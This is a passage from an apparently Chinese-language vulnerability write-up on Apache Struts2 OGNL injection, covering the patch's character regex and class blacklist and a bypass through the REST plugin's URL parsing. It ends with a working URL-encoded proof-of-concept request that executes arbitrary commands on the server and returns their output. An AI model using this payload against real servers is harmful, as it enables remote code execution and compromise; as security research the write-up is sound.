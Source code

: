 使用了正则，防止出现`(#@)`等特殊字符，出现就报错，也就到不了后续的OGNL表达式的执行

并且在禁止的class列表里增加了两个

![image-20200520234647887](/images/talk_about_struts2/image-20200520234647887.png)

使得我们不能在用`#_memberAccess=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS`来绕过限制

### 一个有意思的地方

前面说到这3个漏洞需要开启DynamicMethodInvocation，其实不开启也是可以的

前面说的几种方法都是在处理`name!method`这个格式，rest其实还支持对`action/id/method`的解析

![image-20200521112254951](/images/talk_about_struts2/image-20200521112254951.png)

所以改改POC就能通杀rest-plugin了

```java
http://localhost:8080/showcase_war/orders/3/(%23_memberAccess%3D%40ognl.OgnlContext%40DEFAULT_MEMBER_ACCESS)%3F(%23process%3D%40java.lang.Runtime%40getRuntime().exec(%23parameters.command%5B0%5D)%2C%23ros%3D(%40org.apache.struts2.ServletActionContext%40getResponse().getOutputStream())%2C%40org.apache.commons.io.IOUtils%40copy(%23process.getInputStream()%2C%23ros)%2C%23ros.flush())%3Ad.json?command=ifconfig
```
